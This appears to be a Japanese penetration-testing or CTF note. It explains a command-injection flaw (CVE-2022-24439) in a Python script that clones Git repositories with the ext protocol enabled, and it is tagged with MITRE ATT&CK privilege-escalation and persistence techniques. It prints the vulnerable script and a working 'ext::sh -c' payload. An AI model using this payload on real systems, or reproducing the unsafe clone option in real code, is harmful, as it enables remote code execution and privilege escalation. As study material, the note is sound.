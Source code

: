 ```bash
```

`/opt/internal_apps/clone_changes/clone_prod_change.py`の中身
 
 
 `ext::` プロトコルの脆弱性による RCE(CVE-2022-24439)
- `clone_from()` で `multi_options=["-c protocol.ext.allow=always"]` を指定しているため、`ext::` プロトコルが有効 になっている
- これにより、以下のようにして リモートコード実行（RCE）が可能：
    `python3 clone_prod_change.py 'ext::sh -c "touch /tmp/hacked"'`
    - これを実行すると、システム上に `/tmp/hacked` というファイルが作成される（攻撃成功）
    - 本来クローンすべき URL の代わりに、シェルコマンドを実行させることができる
```bash
#!/usr/bin/python3

import os
import sys
from git import Repo

# 作業ディレクトリを変更
os.chdir('/opt/internal_apps/clone_changes')

# コマンドライン引数からクローンするURLを取得
url_to_clone = sys.argv[1]

# 空の Git リポジトリを作成
r = Repo.init('', bare=True)

# 指定された URL から Git リポジトリをクローン
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])

```



- **Tactics**:
    - #Tactic_特権昇格
- **Techniques**:
    - #T1068_特権昇格のためのエクスプロイト
    - #T1055_プロセス注入
    - #T1053_スケジュールされたタスク/ジョブ
    - その他のPrivilege Escalation関連技術...



---

## Notes

- **Tactics**:
    - #Tactic_永続化
    - #Tactic_防御回避
- **Techniques**:
    - #T1098_アカウント操作
    - #T1553_信頼制御の転覆
    - #T1070_ホスト上の痕跡削除
    - その他のPersistence/Defense Evasion関連技術...
